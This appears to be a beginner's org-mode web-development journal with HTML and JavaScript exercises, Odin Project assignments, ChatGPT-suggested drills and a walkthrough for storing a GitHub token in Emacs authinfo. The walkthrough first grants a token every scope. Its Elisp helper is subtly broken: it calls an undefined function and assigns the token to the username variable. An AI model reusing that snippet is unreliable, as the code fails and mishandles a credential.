      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
2. Within that directory, create a new file named index.html.
3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
